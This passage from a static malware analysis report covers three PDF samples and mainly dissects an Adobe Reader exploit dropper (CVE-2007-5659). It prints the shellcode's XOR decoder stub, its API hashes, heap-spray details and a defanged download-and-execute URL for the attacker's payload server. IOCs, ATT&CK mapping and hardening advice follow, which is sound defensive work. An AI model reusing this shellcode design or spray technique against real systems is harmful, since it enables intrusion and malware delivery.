| CVSS 3.x base score | 7.8 HIGH (`AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H`) |
| Note | NVD states this issue might be subsumed by CVE-2008-0655 |



*Figure 19. National Vulnerability Database entry for CVE-2007-5659.*

The combination of random variable names, the `0x0c0c0c0c` spray address, 4 MiB spray blocks, the `44952` trigger length and the empty Catalog padding (`/Threads`, `/Outlines`, empty `/AcroForm`) is consistent with the publicly available Metasploit Framework module `exploit/windows/fileformat/adobe_collectemailinfo`, which suggests the sample was generated with an exploit builder rather than written by hand.

### 9.9 Shellcode analysis

The shellcode was decoded statically with `decode_shellcode.py`. The script converts the `%uXXXX` string into raw bytes (UTF-16 little-endian), parses the decoder stub, XOR-decodes the body and looks for known API hashes and readable strings. **No instruction is executed.**

```
$ python3 -I ../decode_shellcode.py out_s4/decoded/stage2_pretty.js out_s4/shellcode_decoded.bin
[+] shellcode: 420 bytes
[+] decoder stub: e8 00 00 00 00 5d 83 c5 14 b9 8b 01 00 00 b0 3d 30 45 00 45 49 75 f9 eb 00
[+] body offset=25  length=395  XOR key=0x3d
[+] decoded body saved to out_s4/shellcode_decoded.bin
[+] Windows API hashes found:
      0xEC0E4E8E -> LoadLibraryA
      0x0E8AFE98 -> WinExec
      0x73E2D87E -> ExitProcess
      0x5B8ACA33 -> GetTempPathA
      0x702F1A36 -> URLDownloadToFileA
[+] readable strings (>=4 chars):
      hurlmT
      QRSh
      ZYQR
      .exeu
      .exe
      PPSWP
      /pwJQs
      hxxp://94[.]247[.]2[.]157/.lck/?h=5ac
      i?892bd46e0100f07002da639a9a060000000002c15031930001040900000000170
```



*Figure 20. The shellcode decrypts itself with XOR key 0x3D and resolves Windows APIs by hash. The decoded body reveals the download URL.*

**Decoder stub (first 25 bytes)**

| Bytes | Instruction | Purpose |
|---|---|---|
| `E8 00 00 00 00` | `call $+5` | GetPC trick: pushes the current address on the stack |
| `5D` | `pop ebp` | `ebp` now holds the shellcode's own address |
| `83 C5 14` | `add ebp, 0x14` | Point `ebp` to the encoded body (offset 25) |
| `B9 8B 01 00 00` | `mov ecx, 0x18B` | Body length: 395 bytes |
| `B0 3D` | `mov al, 0x3D` | XOR key |
| `30 45 00` | `xor [ebp+0], al` | Decode one byte |
| `45` / `49` | `inc ebp` / `dec ecx` | Next byte, decrement counter |
| `75 F9` | `jnz` (loop) | Repeat until all 395 bytes are decoded |
| `EB 00` | `jmp` | Continue into the decoded body |

**Decoded body**

The body does not contain readable API names. Instead it stores 32-bit **ROR-13 hashes** of function names and locates the functions at run time by walking the export tables of loaded DLLs, a technique that keeps API names out of the binary. The hashes resolve to:

| Hash | API | Role |
|---|---|---|
| `0xEC0E4E8E` | `LoadLibraryA` | Load `urlmon.dll` (the string `hurlmT` shows `urlm...` being pushed onto the stack; byte `0x68` is the x86 `push` opcode, printed as `h`) |
| `0x5B8ACA33` | `GetTempPathA` | Get the user's `%TEMP%` folder |
| `0x702F1A36` | `URLDownloadToFileA` | Download the second-stage file |
| `0x0E8AFE98` | `WinExec` | Execute the downloaded file |
| `0x73E2D87E` | `ExitProcess` | Terminate cleanly to hide the crash |

Together with the strings `.exe` and `hxxp://94[.]247[.]2[.]157/.lck/?h=5ac`, this is a classic **download-and-execute** payload: it downloads a Windows executable from the attacker server into the Temp folder and runs it. The trailing string beginning with `i?892bd46e...` appears to be an identifier or tracking token used by the server. The other short strings (`QRSh`, `ZYQR`, `PPSWP`, `/pwJQs`) are instruction bytes and hash bytes that happen to be printable, not meaningful text.


### 9.10 Threat intelligence



*Figure 21. Vendor verdicts for S4 on MalwareBazaar. Hybrid Analysis labels the sample directly with CVE-2007-5659.*

| Vendor | Verdict |
|---|---|
| CyberFortress | Clean |
| DocGuard | Malicious |
| Hybrid Analysis | CVE-2007-5659 |
| inlyse Malware.AI | Malicious |
| Joe Sandbox | Malicious |
| Nucleon Malprob | Malware |
| CERT.PL MWDB | No verdict shown |
| ReversingLabs TitaniumCloud | Script-JS.Exploit.Heuristic |
| Spamhaus Hash Blocklist | Suspicious file |
| VirusTotal | No coverage score available on MalwareBazaar |
| YOROI YOMI | Malicious File |

| Source | Result |
|---|---|
| MalwareBazaar file name | `resume.pdf` |
| MalwareBazaar first seen | 2025-03-17 14:06:28 UTC |
| MalwareBazaar tags | `javascript`, `js`, `pdf` |

Eight of the eleven vendors flag S4 as malicious or suspicious, and Hybrid Analysis independently attributes it to CVE-2007-5659, which agrees with the static analysis in Section 9.8.

### 9.11 Attack flow

```
Victim opens PDF in Adobe Reader <= 8.1.1
  |
  |-- Document-level JavaScript (obj 19) loads
  |     |-- Layer 1: obtain eval alias
  |     |-- Layer 2/3: rebuild string-reverse helper, then rebuild stage 2
  |     '-- Defines WRYXKT...NGPL()
  |
  |-- /OpenAction calls this.WRYXKT...NGPL()
  |     |-- Heap spray: 48 x 4 MiB blocks of [NOP sled + shellcode] up to 0x0c0c0c0c
  |     '-- Collab.collectEmailInfo({msg: 0x0c x 131072 bytes})  -> stack overflow (CVE-2007-5659)
  |
  |-- EIP = 0x0c0c0c0c -> NOP sled -> shellcode
  |     |-- XOR 0x3D self-decryption
  |     |-- LoadLibraryA("urlmon"), GetTempPathA
  |     |-- URLDownloadToFileA("hxxp://94[.]247[.]2[.]157/.lck/?h=5ac...", "%TEMP%\<name>.exe")
  |     |-- WinExec("%TEMP%\<name>.exe")
  |     '-- ExitProcess
  |
  '-- Victim only sees a blank page
```

### 9.12 Summary

| Field | Value |
|---|---|
| SHA256 | `4dc9b0c20ea61d91d6a1b5bdce76fb5365de0762efb8f6c2925113c6a8950cae` |
| Size / version | 216,375 bytes, PDF 1.4, 1 blank page, empty metadata |
| Suspicious keywords | `/JS 2`, `/JavaScript 3`, `/OpenAction 1`, `/AcroForm 1` |
| Object chain | Catalog 7 (`/OpenAction` call) and Catalog 7 -> `/Names` 9 -> name tree 16 -> action 18 -> JS stream 19 (FlateDecode) |
| Obfuscation | 3 layers: hidden `eval` alias, fragmented strings, reversed strings |
| Technique | Heap spray at `0x0c0c0c0c` plus `Collab.collectEmailInfo` stack buffer overflow |
| CVE | CVE-2007-5659 (Adobe Reader / Acrobat 8.1.1 and earlier) |
| Shellcode | 420 bytes, XOR key 0x3D, ROR-13 API hashing, download and execute |
| IOC | `hxxp://94[.]247[.]2[.]157/.lck/?h=5ac...` |
| Verdict | **Malicious (exploit / downloader).** High risk on unpatched Adobe Reader 8.1.1 or earlier; ineffective on modern patched readers. |

---

## 10. Indicators of Compromise

### 10.1 File hashes

| Sample | SHA256 | MD5 | Status |
|---|---|---|---|
| S1 | `245f16270bf0dfece1ac13f06e2554d059f82b6bc53b1f19b0d835f409b5d80f` | `5754058e75aa7cc6377c87000e20bb97` | Malicious (phishing) |
| S4 | `4dc9b0c20ea61d91d6a1b5bdce76fb5365de0762efb8f6c2925113c6a8950cae` | `930fc7badacf1a19816a97775662ae54` | Malicious (exploit) |
| S2 | `3050d75d5dc63d1242722f52b9f538376e3ee04844f624d33d2a072549864589` | `5cd49e845fc143ecb398d161bab3da5a` | **Not an IOC** (false positive) |

### 10.2 Network indicators

| Type | Indicator | Source | Purpose |
|---|---|---|---|
| URL | `hxxps://update-two-tau[.]vercel[.]app/payment-receipt` | S1, obj 3 | Phishing landing page |
| Domain | `update-two-tau[.]vercel[.]app` | S1 | Attacker page hosted on a free, legitimate hosting platform |
| URL | `hxxp://94[.]247[.]2[.]157/.lck/?h=5ac` | S4 shellcode | Second-stage executable download |
| IP | `94[.]247[.]2[.]157` | S4 shellcode | Payload server |

### 10.3 Host and behavioral indicators

| Indicator | Sample |
|---|---|
| Producer `jsPDF 2.5.1` combined with a full-page invisible `/Link` annotation | S1 |
| JavaScript name tree entry with a 40-character random uppercase name | S4 |
| JavaScript calls to `Collab.collectEmailInfo` with a very long `msg` argument | S4 |
| Strings `unescape("%u9090%u9090")`, `0x0c0c0c0c` in PDF JavaScript | S4 |
| Executable file written to `%TEMP%` by the PDF reader process, followed by `WinExec` | S4 (expected behavior) |

---

## 11. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Sample |
|---|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 | S1, S4 |
| Initial Access | Phishing: Spearphishing Link | T1566.002 | S1 |
| Execution | User Execution: Malicious File | T1204.002 | S1, S4 |
| Execution | User Execution: Malicious Link | T1204.001 | S1 |
| Execution | Exploitation for Client Execution | T1203 | S4 |
| Execution | Command and Scripting Interpreter: JavaScript | T1059.007 | S4 |
| Defense Evasion | Obfuscated Files or Information | T1027 | S4 |
| Defense Evasion | Masquerading (fake Adobe update dialog) | T1036 | S1 |
| Command and Control | Ingress Tool Transfer | T1105 | S4 |

---

## 12. Discussion

### 12.1 Comparison of the samples

| Aspect | S1 | S2 | S4 |
|---|---|---|---|
| Category | Phishing link | Benign (false positive) | Exploit / downloader |
| Active content | None | None | Obfuscated JavaScript |
| Runs code on open | No | No | Yes (`/OpenAction` + document-level JS) |
| Needs user action | Yes, one click | Not applicable | No, only opening the file |
| Metadata | jsPDF 2.5.1 | macOS Quartz, Keynote | Empty |
| Structure | Valid | Valid | Valid but padded with unused entries |
| Works today | Yes (depends only on the user) | Not applicable | Only on Reader 8.1.1 or earlier |

The two malicious samples show how PDF threats have changed over time. S4 represents the era of **exploit-based** PDF malware (around 2008 to 2010), when Adobe Reader executed JavaScript with full privileges and vulnerabilities such as CVE-2007-5659 allowed code execution just by opening a file. S1 represents the **current** trend: modern readers are patched and sandboxed, so attackers no longer rely on exploits. Instead they put a convincing image and an invisible link inside an otherwise harmless file, and let the user do the rest. S1 is technically simpler but works on any fully patched system.

### 12.2 Effectiveness of the tools

| Tool | Strengths observed | Limitations observed |
|---|---|---|
| pdfid | Very fast triage; immediately highlighted S4 (`/JS` + `/OpenAction`) | Produced false positives on S2 because it scans raw bytes; the `/URI` row did not appear in its output for S1, so the phishing link had to be found with pdf-parser |
| pdf-parser | Parses real objects, confirmed or rejected every pdfid hit, followed object chains and extracted streams | Text search (`--search`) matches substrings, so `/AA` matched font subset names in S2 |
| qpdf | Confirmed all three files are structurally valid | A valid structure says nothing about whether the content is malicious |
| exiftool | Metadata differences (jsPDF, Keynote, empty) were a useful early signal | Metadata is easy for attackers to fake |
| js-beautify | Made the obfuscated code readable | Cannot undo string-level obfuscation |
| Custom scripts | Fully recovered both JavaScript stages and the shellcode without execution | Written specifically for this sample's obfuscation scheme |

The most important lesson is that **no single tool is enough**. pdfid is ideal for deciding which files deserve attention, but every hit must be verified by a parser that understands the PDF object model, as shown by S2.

### 12.3 Issues encountered

1. **pdfid false positives on S2.** Resolved by cross-checking with pdf-parser, keyword searches, URL extraction and vendor intelligence (Section 8).
2. **Overwriting a file with its own output.** The command `js-beautify out_s4/js_19.js > out_s4/js_19.js` produced an empty file, because the shell truncates the output file before `js-beautify` reads it. The stream was extracted again under a different name and beautified into a separate file.
3. **String-level obfuscation.** js-beautify only reformats code. A dedicated static deobfuscator (`deobf_s4.py`) was written to rebuild the hidden stages without running any JavaScript.

### 12.4 Limitations

* Only static analysis was performed. The second-stage executable from `94[.]247[.]2[.]157` was not retrieved, so its family and behavior are unknown.
* S2's classification as a false positive is based on the absence of any active content and on vendor consensus. A malicious payload hidden inside image data and exploiting an image parser vulnerability cannot be completely excluded by static keyword analysis alone, but no evidence of such a payload was found.

---

## 13. Conclusion and Recommendations

Three PDF samples from MalwareBazaar were analyzed statically inside an isolated REMnux virtual machine:

* **S1** is a **phishing PDF**. A single image imitates an Adobe Reader update dialog, and an invisible link annotation covering the whole page redirects any click to `hxxps://update-two-tau[.]vercel[.]app/payment-receipt`.
* **S2** is a **false positive**. pdfid reported `/JS` and `/AA`, but parsing showed these were random byte matches and font subset names. The file is a legitimate Keynote presentation with no active content.
* **S4** is an **exploit dropper**. Three layers of JavaScript obfuscation hide a heap spray and a `Collab.collectEmailInfo` buffer overflow (CVE-2007-5659). The shellcode, decoded statically, downloads and executes a Windows program from `94[.]247[.]2[.]157`.

**Recommendations**

1. **Keep PDF readers updated.** S4 only works on Adobe Reader 8.1.1 or earlier. Modern versions are patched and run in a sandbox (Protected Mode).
2. **Disable JavaScript in PDF readers** where it is not needed (in Adobe Reader: Preferences, JavaScript, uncheck "Enable Acrobat JavaScript"). This blocks the whole class of attacks represented by S4.
3. **Scan email attachments** with tools that inspect PDF structure (for example detecting `/OpenAction` with `/JavaScript`) and that rewrite or check embedded URLs.
4. **Train users** to recognize lures like S1: Adobe never asks users to "update" in order to view a document, and a blurred document with a pop-up is a red flag.
5. **Block known IOCs** (Section 10) in web proxies, DNS filtering and EDR tools.
6. **Verify triage results.** Analysts should treat pdfid output as a starting point and confirm each hit with a full parser before reaching a verdict.

---

## 14. Repository Contents and Script Usage

```
.
|-- README.md                          this report
|-- report.typ, report.pdf             this report as Typst source and compiled PDF
|-- .gitignore                         keeps samples/, tool archives and venv out of git
|-- pdf-lab-terminal-output.txt        full terminal log of the analysis
|-- requirements.txt                   Python packages of the analysis virtualenv
|-- pdfid.py, pdf-parser.py            Didier Stevens tools used in the analysis
|-- deobf_s4.py                        static JavaScript deobfuscator (this work)
|-- decode_shellcode.py                static shellcode decoder (this work)
|-- vm-spec.png                        Figure 1
|-- installed-tools-version.png        Figure 2
|-- bazaar-s1.png, bazaar-s2.png       Figures 3 and 4
|-- bazaar-s3.png                      Figure 5 (MalwareBazaar page of S4)
|-- assigning-pdf-into-a-variable.png  Figure 6
|-- s1/                                Figures 7 to 9
|-- s2/                                Figures 10 to 13
'-- s4/                                Figures 14 to 21
```

### 14.1 `deobf_s4.py`

Rebuilds the hidden JavaScript stages of S4 by simulating string assignments, concatenations and the string-reverse helper. Every string that would have been passed to the `eval` alias is saved as `stageN.js`. The JavaScript is never executed.

```bash
python3 -I deobf_s4.py out_s4/js_19.js out_s4/decoded
```

### 14.2 `decode_shellcode.py`

Extracts the longest `unescape("%u...")` string from the decoded JavaScript, converts it to bytes, parses the GetPC/XOR decoder stub, decodes the body and prints known API hashes and readable strings. The shellcode is never executed.

```bash
python3 -I decode_shellcode.py out_s4/decoded/stage2_pretty.js out_s4/shellcode_decoded.bin
```

Both scripts use only the Python standard library. Running them with `python3 -I` (isolated mode) prevents Python from importing modules from the current directory.

---

## 15. References

1. Didier Stevens, PDF Tools (pdfid, pdf-parser). https://blog.didierstevens.com/programs/pdf-tools/
2. qpdf. https://github.com/qpdf/qpdf
3. pdfminer.six. https://github.com/pdfminer/pdfminer.six
4. Mandiant FLARE FLOSS. https://github.com/mandiant/flare-floss
5. Maurice Lambert, PDForensic. https://github.com/mauricelambert/PDForensic
6. REMnux: A Linux Toolkit for Malware Analysis. https://remnux.org/
7. MalwareBazaar, abuse.ch. https://bazaar.abuse.ch/
8. MalwareBazaar sample S1. https://bazaar.abuse.ch/sample/245f16270bf0dfece1ac13f06e2554d059f82b6bc53b1f19b0d835f409b5d80f/
9. MalwareBazaar sample S2. https://bazaar.abuse.ch/sample/3050d75d5dc63d1242722f52b9f538376e3ee04844f624d33d2a072549864589/
10. MalwareBazaar sample S4. https://bazaar.abuse.ch/sample/4dc9b0c20ea61d91d6a1b5bdce76fb5365de0762efb8f6c2925113c6a8950cae/
11. NIST National Vulnerability Database, CVE-2007-5659. https://nvd.nist.gov/vuln/detail/CVE-2007-5659
12. Metasploit Framework, module `exploit/windows/fileformat/adobe_collectemailinfo`. https://github.com/rapid7/metasploit-framework
13. MITRE ATT&CK. https://attack.mitre.org/
14. Adobe Systems, *Document Management: Portable Document Format, Part 1: PDF 1.7* (ISO 32000-1:2008).
15. Example report: filipi86, MalwareAnalysis-in-PDF. https://github.com/filipi86/MalwareAnalysis-in-PDF
